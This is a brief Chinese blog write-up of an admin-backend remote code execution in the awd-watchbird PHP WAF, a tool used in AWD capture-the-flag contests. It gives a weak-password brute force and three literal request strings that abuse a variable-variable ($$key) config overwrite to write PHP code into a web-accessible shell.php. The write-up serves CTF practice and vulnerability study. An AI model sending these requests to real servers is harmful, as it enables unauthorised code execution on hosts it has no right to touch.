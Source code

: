 ```yaml
---
title: "awd-watchbird后台RCE"
author: ["4shen0ne"]
lastmod: 2024-12-14T01:40:04+08:00
draft: false
---
```


awd-watchbird 是一个 PHP Waf，一般用在 AWD[P] 比赛

后台 RCE 利用流程

1.  爆破弱口令，获取后台权限
2.  通过更新配置的接口可以修改配置项（key 为配置项，value 为对应的值）

    ```text
    ?watchbird=change&key=password_sha1&value=unset
    ```
3.  在更新逻辑中会使用可变变量 `$$key` 将配置项声明为变量，导致可以覆盖声明配置文件
    路径的变量

    ```text
    ?watchbird=change&key=config_path&value=/var/www/html/shell.php
    ```
4.  然后在配置中写入代码即可

    ```text
    ?watchbird=change&key=%3C?php%20phpinfo();%20?%3E&value=1
    ```
